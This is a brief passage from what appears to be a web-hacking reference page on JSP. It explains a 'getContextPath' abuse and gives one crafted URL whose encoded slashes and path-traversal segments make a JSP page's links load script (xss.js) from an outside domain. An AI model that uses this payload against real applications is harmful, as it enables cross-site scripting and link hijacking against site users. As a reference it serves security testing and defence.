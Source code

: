 # JSP

## **getContextPath** abuse

Info from [here](https://blog.rakeshmane.com/2020/04/jsp-contextpath-link-manipulation-xss.html).

```text
 http://127.0.0.1:8080/&sol;rakeshmane.com/xss.js&num;/..;/..;/contextPathExample/test.jsp
```

Accessing that web you may change all the links to request the information to _**rakeshmane.com**_:

![](../../.gitbook/assets/image%20%2854%29.png)

